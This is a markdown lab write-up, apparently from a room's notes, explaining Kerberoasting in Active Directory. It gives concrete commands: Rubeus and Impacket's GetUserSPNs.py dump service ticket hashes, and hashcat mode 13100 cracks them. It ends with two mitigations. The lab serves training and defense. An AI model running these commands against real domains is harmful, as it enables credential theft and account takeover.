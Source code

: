 # Kerberoasting

## Overview
Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

## Tools 
In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.

## Kerberoating with Rubeus

1. cd Downloads - navigate to the directory Rubeus is in

2. Rubeus.exe kerberoast - This will dump the Kerberos hash of any kerberoastable users

3. Then, copy the hash onto your attacker machine- and put it into a .txt file so we can crack it with hashcat using:

	''hashcat -m 13100 -a 0 hash.txt wordlist.txt'' 

## Kerberoasting with Impacket 

1. Install Impacket from: https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

	1. cd Impacket-0.9.19
	2. pip install . - this will install all needed dependencies

2. Use the command:

	'''sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request'''

This will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3. hashcat -m 13100 -a 0 hash.txt Pass.txt - now you can crack those hashes

## Kerberoasting Mitigation

* Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
* Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.
